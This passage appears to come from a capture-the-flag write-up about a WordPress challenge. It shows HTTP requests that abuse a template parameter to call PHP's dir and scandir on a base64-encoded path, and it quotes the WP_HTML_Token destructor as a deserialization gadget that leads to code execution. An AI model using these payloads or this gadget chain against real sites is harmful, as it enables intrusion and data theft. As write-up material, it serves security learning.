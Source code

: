 `dir`:

```http
GET /?template=dir&content=Lw== HTTP/1.1
Host: localhost


```

> Note: The base64 encoded string of `/` is `Lw==`.

Error:

```php
Uncaught Error: Object of class Directory could not be converted to string
```

`scandir`:

```http
GET /?template=scandir&content=Lw== HTTP/1.1
Host: localhost


```

Response:

```html
[...]
Array<script id="wp-block-template-skip-link-js-after">
[...]
```

Well, as you can see, the `dir` function returns an object, in which `echo` try to convert it as a string but failed. In `scandir`, `echo` converts the returned array into string, which is just `Array`.

So nope, we can't use GD Image's functions to leak the flag because we don't have the flag's filename.

How about [`unserialize`](https://www.php.net/manual/en/function.unserialize.php)? Maybe WordPress Core has some known POP gadgets that we can use? If we search for that, we can see this blog post: [Gadgets chain in Wordpress](https://fenrisk.com/gadgets-chain-in-wordpress). In that blog post, it mentioned that class `WP_HTML_Token` has the following POP gadget:

```php
class WP_HTML_Token {
    [...]
    public $bookmark_name = null;
    [...]
    public $on_destroy = null;
    [...]
    public function __destruct() {
        if ( is_callable( $this->on_destroy ) ) {
            call_user_func( $this->on_destroy, $this->bookmark_name );
        }
    }
}
```

